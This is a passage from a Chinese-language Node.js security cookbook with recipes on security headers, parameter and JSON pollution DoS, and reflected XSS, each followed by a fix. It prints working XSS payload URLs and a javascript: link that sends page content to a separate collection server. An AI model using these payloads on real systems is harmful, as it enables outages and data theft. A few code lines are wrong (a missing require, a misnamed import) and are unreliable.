+   **Koa.js** : [`www.npmjs.com/package/koa-helmet`](https://www.npmjs.com/package/koa-helmet)

+   **Fastify** : [`www.npmjs.com/package/@fastify/helmet`](https://www.npmjs.com/package/@fastify/helmet)

## 还有更多...

**头盔**中间件只是将响应头修改为适当的默认值。为了演示**头盔**在幕后做了什么，我们可以尝试使用 Node.js 核心**http**模块注入相同的 HTTP 头：

1.  创建一个名为**http-app**的文件夹，并创建一个**server.js**文件：

    ```js
    $ mkdir http-app
    $ cd http-app
    $ touch server.js
    ```

1.  将以下代码添加到**server.js**文件中：

    ```js
    const http = ('node:http');
    const server = http.createServer((req, res) => {
      secureHeaders(res);
      res.end('Hello World!');
    });
    const secureHeaders = (res) => {
      res.setHeader('Cross-Origin-Opener-Policy', 'same-
        origin');
      res.setHeader('Cross-Origin-Resource-Policy', 'same-
        origin');
      res.setHeader('Origin-Agent-Cluster', '?1');
      res.setHeader('Referrer-Policy', 'no-referrer');
      res.setHeader('Strict-Transport-Security', 'max-
        age=15552000; includeSubDomains');
      res.setHeader('X-Content-Type-Options', 'nosniff');
      res.setHeader('X-DNS-Prefetch-Control', 'off');
      res.setHeader('X-Download-Options', 'noopen');
      res.setHeader('X-Frame-Options', 'SAMEORIGIN');
      res.setHeader('X-Permitted-Cross-Domain-Policies',
        'none');
      res.setHeader('X-XSS-Protection', '0');
    };
    server.listen(3000, () => {
      console.log('Server listening on port 3000');
    });
    ```

1.  启动服务器：

    ```js
    $ node server.js
    ```

1.  重新运行*cURL*命令并观察头部是否已注入：

    ```js
    $ curl -I http://localhost:3000
    HTTP/1.1 200 OK
    Cross-Origin-Opener-Policy: same-origin
    Cross-Origin-Resource-Policy: same-origin
    Origin-Agent-Cluster: ?1
    Referrer-Policy: no-referrer
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-Content-Type-Options: nosniff
    X-DNS-Prefetch-Control: off
    X-Download-Options: noopen
    X-Frame-Options: SAMEORIGIN
    X-Permitted-Cross-Domain-Policies: none
    X-XSS-Protection: 0
    Date: Wed, 10 Jul 2024 14:21:31 GMT
    Connection: keep-alive
    Keep-Alive: timeout=5
    ```

这些步骤演示了如何使用 Node.js 核心**http**模块手动注入 HTTP 安全头，复制**头盔**中间件提供的功能。此示例说明了**头盔**如何通过设置各种 HTTP 头减轻常见漏洞来增强安全性。

## 参见

+   本章中的*防御跨站脚本*菜谱

+   本章中的*预防跨站请求伪造*菜谱

# 预防恶意输入

黑客利用的最容易的一组漏洞是注入攻击，其中 SQL 注入攻击尤为常见。SQL 注入攻击是指攻击者将恶意 SQL 注入到应用程序中，以删除、扭曲或暴露存储在数据库中的数据。

如果应用程序以任何形式接受输入，你需要采取必要的预防措施，以确保恶意输入不能利用你的应用程序。

参数污染是一种注入攻击，其中 Web 应用程序的 HTTP 端点的 HTTP 参数被注入了特定的恶意输入。HTTP 参数污染可以用来暴露内部数据，甚至导致**拒绝服务**（**DoS**）攻击，攻击者试图中断资源，使其对预期用户不可访问。

在这个菜谱中，我们将探讨如何保护 HTTP 服务器免受参数污染攻击。参数污染攻击是指恶意输入被注入到 URL 参数中。

## 准备工作

在这个菜谱中，我们将学习如何保护 Express.js 服务器免受 HTTP 参数污染攻击。但首先，我们必须创建这个 Express.js 服务器：

1.  为此菜谱创建一个名为**express-input**的新目录，并使用**npm**初始化项目：

    ```js
    $ mkdir express-input
    $ cd express-input
    $ npm init --yes
    ```

1.  接下来，我们需要安装 Express.js 模块：

    ```js
    $ npm install express
    ```

1.  创建一个名为**server.js**的文件：

    ```js
    $ touch server.js
    ```

1.  将以下代码添加到**server.js**中。这将创建一个易受 HTTP 参数污染攻击的 Express.js 服务器：

    ```js
    const express = require('express');
    const app = express();
    app.get('/', (req, res) => {
      asyncWork(() => {
        const upper = (req.query.msg || '').toUpperCase();
        res.send(upper);
      });
    });
    const asyncWork = (callback) => {
      setTimeout(callback, 0);
    };
    app.listen(3000, () => {
      console.log('Server listening on port 3000');
    });
    ```

    注意，**asyncWork()**函数仅用于演示目的。在实际应用中，你可能会期望一些异步任务发生，例如对数据库或外部服务的查询。

现在我们已经创建了一个有漏洞的服务器，我们准备开始这个菜谱，我们将演示如何利用这个漏洞并学习如何减轻它。

## 如何做...

到目前为止，我们已经创建了一个 Express.js 服务器，它可以响应**/**请求并处理单个参数**msg**。Express.js 服务器返回我们传递给它的**msg**值，但以大写形式：

1.  首先，启动服务器：

    ```js
    $ node server.js
    Server listening on port 3000
    ```

1.  在第二个终端窗口中，我们应该通过发送请求来测试服务器是否按预期工作：

    ```js
    $ curl http://localhost:3000/\?msg\=hello
    HELLO%
    ```

1.  让我们看看当我们两次传递**msg**参数时会发生什么：

    ```js
    $ curl http://localhost:3000/\?msg\=hello\&msg\=world
    curl: (52) Empty reply from server
    ```

1.  现在，如果我们回到第一个终端窗口，我们会看到服务器因以下错误而崩溃：

    ```js
    Server listening on port 3000
    /Users/bgriggs/Node.js-Cookbook/Chapter09/express-input/server.js:6
        const upper = (req.query.msg || '').toUpperCase();
                                            ^
    TypeError: (req.query.msg || "").toUpperCase is not a function
        at Timeout._onTimeout (/Users/bgriggs/Node.js-Cookbook/Chapter09/express-input/server.js:6:41)
        at listOnTimeout (node:internal/timers:573:17)
        at process.processTimers (node:internal/timers:514:7)
    Node.js v22.9.0
    ```

    因此，仅通过发送重复参数就可以导致服务器崩溃。这使得攻击者发起有效的 DoS 攻击变得相对容易。

1.  错误信息指出**.toUpperCase is not a function**。**toUpperCase()**函数在**String.prototype**上可用。这意味着我们调用此函数的值不是**String.prototype**类型，导致**TypeError**。这是因为在多个**msg**值被转换成了一个数组。为了防止这种情况，我们应该添加一些逻辑，确保在指定多个值时始终取**msg**的最后一个值。让我们将这个逻辑添加到**server.js**的一个副本中，我们将它命名为**fixed-server.js**：

    ```js
    $ cp server.js fixed-server.js
    ```

1.  现在，将以下两行添加到 HTTP **GET**请求处理程序中的**asyncWork()**回调函数内。第一行将**req.query.msg**的值提取到名为**msg**的变量中。第二行将使用**array.pop()**方法用数组的最后一个元素覆盖**msg**的值：

    ```js
        let msg = req.query.msg;
        if (Array.isArray(msg)) msg = msg.pop();
    ```

1.  接下来，需要更新以下行，以便它引用**msg**变量：

    ```js
        const upper = (msg || '').toUpperCase();
    ```

1.  启动修复后的服务器：

    ```js
    $ node fixed-server.js
    ```

1.  现在，让我们重试我们的请求，其中我们两次传递**msg**参数：

    ```js
    $ curl http://localhost:3000/\?msg\=hello\&msg\=world
    WORLD%
    ```

    我们将**msg**变量始终设置为最后一个值的逻辑正在起作用。注意，服务器不再崩溃。

通过这样，我们已经了解了如何利用 URL 参数来造成 DoS 攻击，以及我们如何在我们的代码中添加逻辑来防范这些攻击。

## 它是如何工作的...

当输入没有适当清理时，就会发生注入攻击。在这个菜谱中，我们错误地假设**msg**参数将始终是一个字符串。

许多 Node.js 网络框架支持 URL 中的重复参数，尽管没有规定如何处理这些参数。

Express.js 依赖于**qs**模块来处理 URL 参数。**qs**模块处理同名多个参数的方法是将重复的名称转换为数组。正如本配方中所示，这种转换会导致代码中断和意外行为。

在这个配方中，我们的服务器崩溃是因为它试图在一个不存在的**Array**全局对象上调用**toUpperCase()**函数，该类型上不存在这种类型。这意味着攻击者有一个非常容易利用的方法，通过提供格式错误/恶意输入来禁用服务器。除了启用 DoS 风格的攻击之外，不清理和验证输入参数可能导致 XSS 攻击。XSS 攻击将在本章的*防范 XSS 攻击*配方中更详细地介绍。

## 还有更多...

如果在应用程序代码中使用不当，Node.js 的**Buffer**对象可能会被攻击者利用。**Buffer**对象代表一系列固定长度的字节，并且是 JavaScript 的**Uint8Array()**类的子类。在许多情况下，您将通过高级 API 与**Buffer**对象交互，例如使用**fs.readFile()**读取文件。然而，在需要直接与二进制数据交互的情况下，您可以使用**Buffer**对象，因为它们提供了用于数据操作的低级细粒度 API。

在过去的几年里，人们对 Node.js 的**Buffer**构造函数的不安全使用给予了大量关注。早期对使用**Buffer**构造函数的担忧是它不会为零填充新的**Buffer**实例，这可能导致通过内存暴露敏感数据的风险。

重要提示

所有的以下示例都是通过 Node.js REPL 创建的。您可以通过在终端窗口中输入**$ node**来启动 Node.js REPL。

在 Node.js 6 中，调用**new Buffer(int)**将创建一个新的**Buffer**对象，但不会覆盖任何现有内存：

```js
> new Buffer(10)
<Buffer b7 20 00 00 00 00 00 00 00 2c>
```

这种做法的安全影响已被认识到。在初始化一个新的**Buffer**对象时，如果没有覆盖数据，我们可能会意外地暴露一些之前的内存。在最坏的情况下，这可能会暴露敏感数据。

然而，在 Node.js 8 之后的版本中，调用**Buffer(int)**将导致一个大小为**int**的零填充**Buffer**对象：

```js
$ node
> new Buffer(10)
<Buffer 00 00 00 00 00 00 00 00 00 00>
```

调用**new Buffer(int)**仍然被弃用，并且从 Node.js 22 开始，使用此构造函数将发出弃用警告：

```js
> new Buffer(10)
<Buffer 00 00 00 00 00 00 00 00 00 00>
> (node:46906) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
(Use `node --trace-deprecation ...` to show where the warning was created)
```

这是因为使用新的**Buffer(int)**构造函数仍然存在安全风险。现在让我们展示这个风险。

想象一下，我们的应用程序接受了一些用户以 JSON 形式输入的数据，并从其中一个值创建了一个**new Buffer()**对象：

```js
> let greeting = { "msg" : "hello" }
undefined
> new Buffer(greeting.msg)
<Buffer 68 65 6c 6c 6f>
> (node:47025) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
(Use `node --trace-deprecation ...` to show where the warning was created)
```

我们可以看到，这正如预期的那样工作（忽略弃用警告）。调用**Buffer(string)**创建一个包含字符串值的新的**Buffer**对象。现在，让我们看看如果我们将**msg**设置为数字而不是字符串会发生什么：

```js
> greeting = { "msg" : 10 }
{ msg: 10 }
> new Buffer(greeting.msg)
<Buffer 00 00 00 00 00 00 00 00 00 00>
> (node:47073) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
(Use `node --trace-deprecation ...` to show where the warning was created)
```

这已经创建了一个大小为 **10** 的 **Buffer** 对象。因此，攻击者可以通过 **msg** 属性传递任何值，并创建一个同样大小的 **Buffer** 对象。攻击者可以通过在每个请求中提供大整数值来发起简单的 DoS 攻击。

弃用警告建议使用 **Buffer.from(req.body.string)** 代替。在传递给 **Buffer.from()** 方法时，一个数字将抛出异常：

```js
> new Buffer.from(greeting.msg)
Uncaught:
TypeError [ERR_INVALID_ARG_TYPE]: The first argument must be of type string or an instance of Buffer, ArrayBuffer, or Array or an Array-like Object. Received type number (10)
```

这有助于保护我们的代码免受意外输入的影响。要创建一个给定大小的新的 **Buffer** 对象，您应该使用 **Buffer.alloc(int)** 方法：

```js
> new Buffer.alloc(10)
<Buffer 00 00 00 00 00 00 00 00 00 00>
```

此外，还有一个 **Buffer.allocUnsafe()** 构造函数。**Buffer.allocUnsafe()** 构造函数提供了与 Node.js 7 之前版本中类似的行为，其中初始化时内存并未完全填充为零：

```js
$ new Buffer.allocUnsafe(10)
<Buffer 00 00 00 00 00 00 00 00 ff ff>
```

由于前面提到的原因，请谨慎使用 **Buffer.allocUnsafe()** 构造函数。

## 相关内容

+   本章中的 *防止 JSON 污染* 菜谱

+   本章中的 *防止跨站脚本攻击*

+   本章中的 *防止跨站请求伪造*

# 防止 JSON 污染

JavaScript 语言允许所有 **Object** 属性被修改。在 JSON 污染攻击中，攻击者利用这种能力用恶意代码覆盖内置属性和函数。

接受 JSON 作为用户输入的应用程序最容易受到这些攻击。在最严重的情况下，仅通过在 JSON 输入中提供额外的值就可能导致服务器崩溃。这会使服务器容易受到通过 JSON 污染的 DoS 攻击。

防止 JSON 污染攻击的关键是验证所有 JSON 输入。这可以手动完成，也可以通过为您的 JSON 定义一个架构来验证。

在这个菜谱中，我们将演示一个 JSON 污染攻击，并学习如何通过验证我们的 JSON 输入来保护我们免受这些攻击：具体来说，我们将使用 **Another JSON Schema Validator** ( **Ajv** ) 来验证我们的 JSON 输入。

## 准备工作

为了准备这个菜谱，我们必须创建一个容易受到 JSON 污染攻击的服务器。该服务器将接受 **msg** 和 **name** 作为正文负载，并使用这些值构建消息进行响应：

1.  首先，让我们创建一个新的名为 **json-pollution** 的目录来工作，并使用 **npm** 初始化它：

    ```js
    $ mkdir json-pollution
    $ cd json-pollution
    $ npm init --yes
    ```

1.  然后，创建一个名为 **server.js** 的文件：

    ```js
    $ touch server.js
    ```

1.  将以下代码添加到 **server.js** 中：

    ```js
    const http = require('node:http');
    const { STATUS_CODES } = http;
    const server = http.createServer((req, res) => {
      if (req.method === 'POST' && req.url === '/') {
        greeting(req, res);
        return;
      }
      res.statusCode = 404;
      res.end(STATUS_CODES[res.statusCode]);
    });
    const greeting = (req, res) => {
      let data = '';
      req.on('data', (chunk) => (data += chunk));
      req.on('end', () => {
        try {
          data = JSON.parse(data);
        } catch (e) {
          res.end('');
          return;
        }
        if (data.hasOwnProperty('name')) {
          res.end(`${data.msg} ${data.name}`);
        } else {
          res.end(data.msg);
        }
      });
    };
    server.listen(3000, () => {
      console.log('Server listening on port 3000');
    });
    ```

现在我们已经创建了一个易受攻击的服务器，我们可以开始这个菜谱了。

## 如何做到这一点...

在这个菜谱中，我们将演示一个 JSON 污染攻击，并学习如何使用 JSON 架构来保护我们的应用程序免受这些攻击：

1.  使用以下命令启动服务器：

    ```js
    $ node server.js
    Server listening on port 3000
    ```

1.  接下来，我们将使用 *cURL* 向 **http://localhost:3000** 发送 HTTP **POST** 请求。我们将向 **curl** 命令提供 **-X** 参数来指定 HTTP 请求方法，以及 **-d** 参数来提供数据。在第二个终端窗口中，发送以下 **cURL** 请求：

    ```js
    $ curl -H "Content-Type: application/json" -X POST -d '{"msg": "Hello", "name": "Beth" }' http://localhost:3000/
    Hello Beth%
    ```

    如预期，服务器以问候语作为响应。

1.  现在，让我们尝试修改有效载荷，使其发送一个名为 **hasOwnProperty** 的额外 JSON 属性：

    ```js
    $ curl -H "Content-Type: application/json" -X POST -d '{"msg": "Hello", "name": "Beth", "hasOwnProperty": 0 }' http://localhost:3000/
    curl: (52) Empty reply from server
    ```

    注意来自服务器的空回复。

1.  检查您运行服务器的终端窗口。您应该看到它崩溃并显示以下错误：

    ```js
    Server listening on port 3000
    /Users/bgriggs/Node.js-Cookbook/Chapter09/json-pollution/server.js:29
        if (data.hasOwnProperty('name')) {
                 ^
    TypeError: data.hasOwnProperty is not a function
        at IncomingMessage.<anonymous> (/Users/bgriggs/Node.js-Cookbook/Chapter09/json-pollution/server.js:29:14)
        at IncomingMessage.emit (node:events:519:28)
        at endReadableNT (node:internal/streams/readable:1696:12)
        at process.processTicksAndRejections (node:internal/process/task_queues:82:21)
    Node.js v22.9.0
    ```

1.  由于 JSON 输入中的 **hasOwnProperty()** 函数被 **hasOwnProperty** 值覆盖，我们的服务器崩溃了。我们可以通过使用 Ajv 模块验证我们的 JSON 输入来防止这种情况。因此，从 **npm** 安装 Ajv 模块：

    ```js
    $ npm install ajv
    ```

1.  接下来，我们将我们的 **server.js** 文件复制到一个名为 **fixed-server.js** 的新文件中：

    ```js
    $ cp server.js fixed-server.js
    ```

1.  将以下代码添加到 **fixed-server.js** 中以导入 **ajv** 模块并定义 JSON 输入的 JSON 模式。注意，此代码应添加在 **STATUS_CODES** 解构下方：

    ```js
    const Ajv = require('ajv');
    const ajv = new Ajv();
    const schema = {
      title: 'Greeting',
      type: 'object',
      properties: {
        msg: { type: 'string' },
        name: { type: 'string' }
      },
      additionalProperties: false,
      required: ['msg']
    };
    const validate = ajv.compile(schema);
    ```

1.  欢迎函数需要修改以验证 JSON 输入与模式：

    ```js
    const greeting = (req, res) => {
      let data = '';
      req.on('data', (chunk) => (data += chunk));
      req.on('end', () => {
        try {
          data = JSON.parse(data);
        } catch (e) {
          res.end('');
          return;
        }
        if (!validate(data, schema)) {
          res.end('');
          return;
        }
        if (data.hasOwnProperty('name')) {
          res.end(`${data.msg} ${data.name}`);
        } else {
          res.end(data.msg);
        }
      });
    };
    ```

    这里，我们添加了一个条件语句，该语句在 **greeting()** 函数内调用 **validate()** 方法，该方法验证模式。

1.  启动固定的服务器：

    ```js
    $ node fixed-server.js
    ```

1.  重新尝试相同的请求以尝试覆盖 **hasOwnProperty()** 方法。观察它没有收到响应，并且服务器不再崩溃：

    ```js
    $ curl -H "Content-Type: application/json" -X POST -d '{"msg": "Hello", "name": "Beth", "hasOwnProperty": 0 }' http://localhost:3000/
    ```

通过这种方式，我们通过验证输入与 JSON 模式来保护我们的服务器免受 JSON 污染攻击。

## 它是如何工作的...

在这个菜谱中，我们演示了 JSON 污染攻击。为此，我们创建了一个简单的 Express.js 服务器，该服务器在 **http://localhost:3000** 上有一个处理 HTTP **POST** 请求的路由处理程序。对于每个请求，我们的 **greeting()** 函数会被调用。**greeting()** 函数将请求数据解析为 JSON，然后聚合作为请求参数提供的 **msg** 和 **name** 值。聚合后的字符串作为对请求的响应返回。

在我们的 **server.js** 文件中，我们使用了 **Object.prototype.hasOwnProperty()** 方法，这是一个在所有对象上可用的内置方法。然而，通过在我们的 JSON 输入中传递一个 **hasOwnProperty** 属性，我们可以覆盖 **Object.prototype.hasOwnProperty()** 方法。由于我们在 JSON 输入中将 **hasOwnProperty** 值设置为 **0**，当我们的代码尝试调用 **data.hasOwnProperty()** 时，服务器崩溃了——因为该值已被覆盖为 **0**，而不是一个函数。

当一个面向公众的应用程序接受 JSON 输入时，有必要在应用程序中采取措施来防范 JSON 污染攻击。我们介绍的一种保护应用程序免受这些攻击的方法是使用 JSON Schema 验证器。它验证我们的 JSON 输入属性和值是否与我们预期的相匹配。在这个菜谱中，我们使用了 Ajv 来定义一个模式以实现这一点。Ajv 使用 **JSON Schema** ( [`json-schema.org/`](https://json-schema.org/) ) 格式来定义对象模式。

我们的架构要求 JSON 输入必须包含 **msg** 属性，并允许可选的 **name** 属性。它还指定了两个输入都必须是 **string** 类型。**additionalProperties: false** 配置禁止了额外的属性，导致我们在 JSON 输入中提供 **hasOwnProperty** 时验证失败，这使得无法覆盖 **Object.prototype.hasOwnProperty** 方法。

## 参考也

+   本章中的 *预测恶意输入* 示例

+   本章中的 *防范跨站脚本* 示例

+   本章中的 *防止跨站请求伪造* 示例

# 防范跨站脚本

XSS 攻击是客户端注入攻击，恶意脚本被注入到网站中。XSS 漏洞非常危险，因为它们可以危害受信任的网站。

在这个示例中，我们将演示一个 XSS 漏洞，并学习我们如何保护自己。我们将使用 **he** ( [`www.npmjs.com/package/he`](https://www.npmjs.com/package/he) ) **npm** 模块来完成此操作。

## 准备工作

在这个示例中，我们将创建一个易受 XSS 攻击的 Express.js 服务器。为此，我们必须创建一个易受攻击的 Express.js 服务器：

1.  首先，让我们创建一个名为 **express-xss** 的目录来工作：

    ```js
    $ mkdir express-xss
    $ cd express-xss
    $ npm init --yes
    ```

1.  现在，我们需要安装 **express**：

    ```js
    $ npm install express
    ```

1.  创建一个文件，用于存储 Express.js 服务器：

    ```js
    $ touch server.js
    ```

1.  将以下内容添加到 **server.js** 中。这将创建一个服务器，渲染一个简单的 HTML 网页，该网页易受 XSS 攻击：

    ```js
    const express = require('express');
    const app = express();
    app.get('/', (req, res) => {
      const { previous, lang, token } = req.query;
      getServiceStatus((status) => {
        res.send(`
          <h1>Service Status</h1>
          <div id=status>
            ${status}
          </div>
          <div>
          <a href="${previous}${token}/${lang}">Back</a>
          </div>
        `);
      });
    });
    const getServiceStatus = (callback) => {
      const status = 'All systems are running.';
      callback(status);
    };
    app.listen(3000, () => {
      console.log('Server listening on port 3000');
    });
    ```

现在，我们准备进入这个示例。

## 如何做…

在这个示例中，我们将学习如何利用和缓解 XSS 攻击：

1.  首先，使用以下命令启动服务器：

    ```js
    $ node server.js
    ```

1.  服务器正在模拟一个服务状态网页。该网页接受三个参数：**previous**、**token** 和 **lang**。在现实世界的 Web 应用程序中，将这些参数注入到 URL 中是一种常见做法。导航到 **http://localhost:3000/?previous=/&token=TOKEN&lang=en**；预期将看到以下输出：


图 9.5 – 展示“所有系统正常运行”的演示服务状态网页

1.  现在，我们可以构建一个 XSS 攻击。我们将构建一个 URL，通过 URL 参数注入参数以将服务状态消息更改为 **所有系统已关闭**！我们的目标是通过 URL 参数注入以下 JavaScript：

    ```js
    document.getElementById("status").innerHTML="All systems are down!";
    ```

1.  我们可以使用以下 HTTP 请求注入此脚本：

    ```js
    http://localhost:3000/?previous=%22%3E%3Cscri&token=pt%3Edocument.getElementById(%22status%22).innerHTML=%22All%20systems%20are%20down!%22;%3C&lang=script%3E%20%3Ca%20href=%22/
    ```

1.  现在，网页将显示 **所有系统已关闭**！因此，访问我们合法的服务状态页面的访客将看到一条恶意消息。这些攻击通常会将恶意 URL 发送到对网站一无所知的消费者：


图 9.6 – 展示“所有系统已关闭！”的演示服务状态网页

1.  我们可以通过使用浏览器中的 **查看页面源代码** 界面来查看已注入的代码。如果您使用的是 macOS，您应该能够使用 *Command* + *Option* + *U* 快捷键打开 **查看页面源代码** 界面：


图 9.7 – 显示注入 JavaScript 的页面源代码

1.  为了修复应用程序，我们需要对输入进行转义/清理。将 **server.js** 文件复制到一个名为 **fixed-server.js** 的文件中：

    ```js
    $ cp server.js fixed-server.js
    ```

1.  要转义或清理输入，我们将使用一个名为 **he** 的模块。从 **npm** 注册表安装 **he**：

    ```js
    $ npm install he
    ```

1.  我们需要在 **fixed-server.js** 中添加对 **he** 的导入。在 **express** 模块导入下方添加以下代码行：

    ```js
    const express = require('he');
    ```

1.  然后，我们可以使用 **he** 设置 **href** 值。按如下方式修改路由处理程序：

    ```js
    app.get('/', (req, res) => {
      const { previous, lang, token } = req.query;
      getServiceStatus((status) => {
        const href =
          he.encode(`${previous}${token}/${lang}`);
        res.send(`
            <h1>Service Status</h1>
            <div id=status>
              ${status}
            </div>
            <div>
            <a href="${href}">Back</a>
            </div>
          `);
      });
    });
    ```

1.  启动修复后的服务器：

    ```js
    $ node fixed-server.js
    Server listening on port 3000
    ```

1.  再次尝试访问恶意 URL：

    ```js
    http://localhost:3000/?previous=%22%3E%3Cscri&token=pt%3Edocument.getElementById(%22status%22).innerHTML=%22All%20systems%20are%20down!%22;%3C&lang=script%3E%20%3Ca%20href=%22/
    ```

1.  注意，这次我们得到了预期的 **所有系统正常运行** 输出。我们的注入攻击不再有效：


图 9.8 – 显示“所有系统正常运行”的服务状态网页

这样，我们就学会了如何使用 **he** 模块来防止 XSS 攻击。

## 它是如何工作的...

XSS 攻击是客户端注入攻击，恶意脚本被注入到受信任的网站中。XSS 攻击的一般流程如下：

1.  恶意输入进入应用程序——通常是通过网络请求。

1.  输入被渲染为网页上的动态内容，因为输入没有被适当清理。

XSS 攻击主要有两种类型：持久型 XSS 和反射型 XSS。持久型 XSS 攻击中，恶意数据被注入到系统的持久层中。例如，它可能被注入到数据库中的一个字段中。

反射型 XSS 攻击依赖于与服务器的一次单独交互——例如，发送单个 HTTP 请求。本食谱中演示的攻击是通过包含恶意输入的 HTTP 请求发送的反射型 XSS 攻击。

本食谱中的漏洞是由于为 **Back** 链接的 **href** 值制定的格式。我们通过分配 **%22%3E%3Cscri** 值开始注入过程，解码后等于 **"><scri**。此值关闭 HTML 锚标签并开始一个准备注入我们的脚本的 HTML 脚本元素。其余值设置为将以下代码注入网页：

```js
"><script>document.getElementById("status").innerHTML="All systems are down!";</script> <a href="
```

注意，如果只有一个参数，攻击将不会成功，因为许多现代浏览器都内置了 XSS 检查器来防止明显的 **<script>** 标签注入。

重要提示

您可以使用 Node.js 的 **decodeURI()** 方法解码已编码的 URI。例如，**$ node -p "decodeURI('%22%3E%3Cscri')"** 将输出 **"><scri**。

我们使用**he**模块修复了这个漏洞。我们使用**he**模块的**encode()**函数来这样做。这个函数接受预期为 HTML 或 XML 输入的文本，并以转义形式返回它。这就是我们清理输入并阻止**<script>**标签被注入到网页中的方法。

我们的服务器所有输入在使用之前都应该被验证和清理。这包括对数据存储的间接输入，因为这些可能被用来执行持久性 XSS 攻击。

## 还有更多...

仍然有一些其他类型的 XSS 攻击，我们可以用来损害我们的服务器。让我们演示这些攻击并学习如何帮助我们预防它们。

### 协议处理器 XSS

这个菜谱中的修复服务器仍然容易受到某些其他类型 XSS 的攻击。在这种情况下，我们将假设状态值是攻击者不应该能够读取的特权信息。

这种攻击的流程是创建一个恶意的数据收集服务器，它将脚本注入到网页中，获取信息然后转发到数据收集服务器。

为了演示这一点，我们需要创建一个数据收集服务器：

1.  在**express-xss**目录下，创建一个名为**colletion-server.js**的文件：

    ```js
    $ touch collection-server.js
    ```

1.  然后，将以下代码添加到**collection-server.js**中：

    ```js
    require('node:http')
      .createServer((req, res) => {
        console.log(
          req.connection.remoteAddress,
          Buffer.from(req.url.split('/attack/')[1],
            'base64').toString().trim()
        );
      })
      .listen(3001, () => {
        console.log('Collection Server listening on port
          3001');
      });
    ```

1.  现在，我们可以启动数据收集服务器：

    ```js
    $ node collection-server.js
    Collection Server listening on port 3001
    ```

1.  在第二个终端窗口中，重新启动**fixed-server.js**文件：

    ```js
    $ node fixed-server.js
    Server listening on port 3000
    ```

1.  在你的浏览器窗口中，访问以下 URL：

    ```js
    http://localhost:3000/?previous=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(document.getElementById(%22status%22).innerHTML)}`,0/&token=TOKEN&lang=en
    ```

1.  网页应该看起来和之前一样，仍然显示**所有系统正在运行**的消息。然而，XSS 注入已经更新了**返回**超链接的**href**值，使其指向以下内容：

    ```js
    javascript:(new Image().src)=``http://localhost:3001/attack/${btoa(document.getElementById(status).innerHTML)}``,0 /
    ```

    链接以**javascript:**开头，这是一个允许 JavaScript 作为 URI 执行的协议处理器。当点击这个链接时，会创建一个 HTML 图像元素（****），其**src**值设置为我们的数据收集服务器地址。**btoa()**函数将状态值 Base64 编码。在这里，**,0**被附加到末尾，导致表达式评估为**false** - 确保图像不被渲染。

1.  点击**返回**链接并检查数据收集服务器。你会看到状态已经被接收，如下所示：

    ```js
    $ node collection-server.js
    ::1 All systems are running.
    ```

    为了强调这些攻击的危险性，想象一下这如果是真实的特权数据，比如凭证或令牌。仅仅通过发送一个恶意链接给用户并让他们点击它，我们就可以通过我们的收集服务器获取他们的敏感数据。

    服务器仍然容易受到攻击，因为我们仍然可以注入值到**href**属性中。避免这种情况最安全的方法是不允许输入确定**href**属性的值：

1.  让我们将**fixed-server.js**复制到一个新文件并修复它：

    ```js
    $ cp fixed-server.js protocol-safe-server.js
    ```

1.  我们将通过安装**escape-html**模块来修复这个漏洞：

    ```js
    $ npm install escape-html
    ```

1.  通过替换**he**模块导入以下行，在**fixed-server.js**中导入**escape-html**模块：

    ```js
    const escapeHTML = require('escape-html');
    ```

1.  然后，将 **href** 赋值更改为以下内容：

    ```js
    const href = escapeHTML(`/${previous}${token}/${lang}`);
    ```

1.  现在，启动 **protocol-safe-server.js** :

    ```js
    $ node protocol-safe-server.js
    Server listening on port 3000
    ```

1.  在数据收集服务器仍在运行的情况下，重新访问恶意 URL 并点击 **后退** :

    ```js
    http://localhost:3000/?previous=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(document.getElementById(%22status%22).innerHTML)}`,0/
    ```

你会观察到请求失败，数据收集服务器没有接收到特权数据。这是因为指向我们恶意服务器的链接已经被清理。

重要提示

本章介绍了 HTML 编码和可用于帮助转义 HTML 的模块。同样，对于转义 JavaScript，可以使用**jsesc**模块（[`www.npmjs.com/package/jsesc`](https://www.npmjs.com/package/jsesc)）。然而，将输入嵌入到 JavaScript 中通常被认为风险很高，因此你应该评估你这样做的原因。

### 参数验证

浏览器只能在地址栏中显示非常长 URL 的一部分。这意味着对于具有许多参数的非常长 URL，你可能看不到附加到 URL 末尾的内容。这使得识别恶意 URL 更具挑战性。

如果你的应用程序的典型使用不涉及非常长的 URL，那么为你的应用程序将接受的 URL 添加一些约束将是明智的。让我们现在就做这件事：

1.  将 **server.js** 文件复制到名为 **constraints-server.js** 的新文件中：

    ```js
    $ cp server.js constraints-server.js
    ```

1.  在 **constraints-server.js** 文件中定义一个 **validateParameters()** 函数，用于验证 URL 参数：

    ```js
    const validateParameters = ({ previous, token, lang },
      query) => {
        return (
          Object.keys(query).length <= 3 &&
          typeof lang === 'string' &&
          lang.length === 2 &&
          typeof token === 'string' &&
          token.length === 16 &&
          typeof previous === 'string' &&
          previous.length <= 16
        );
    };
    ```

1.  现在，我们需要在我们的请求处理器中调用 **validateParameters()** 函数。将请求处理器更改为以下内容：

    ```js
    app.get('/', (req, res) => {
      const { previous, lang, token } = req.query;
      if (!validateParameters({ previous, token, lang },
        req.query)) {
          res.sendStatus(422);
          return;
        }
      getServiceStatus((status) => {
        res.send(`
          <h1>Service Status</h1>
          <div id=status>
            ${status}
          </div>
          <div>
          <a href="${previous}${token}/${lang}">Back</a>
          </div>
        `);
      });
    });
    ```

1.  启动 **constraints-server.js** :

    ```js
    $ node constraints-server.js
    Server listening on port 3000
    ```

1.  通过导航到以下 URL 进行测试，所有这些 URL 都应该失败验证检查：

    +   **http://localhost:3000/?previous=sixteencharacter&token=sixteencharacter**

    +   **http://localhost:3000/?previous=sixteencharacter&token=sixteencharacter&lang=en&extra=value**

    +   **http://localhost:3000/?previous=characters&token=sixteencharacter&lang=abc**

    以下 URL 应该可以正常工作，因为它满足了所有约束条件：

    +   **http://localhost:3000/?previous=sixteencharacter&token=sixteencharacter&lang=en**

应尽可能对用户输入进行转义和验证，以帮助防止 XSS 注入攻击。

## 参考以下内容

+   本章中的 *预测恶意输入* 菜谱

+   本章中的 *防止 JSON 污染* 菜谱

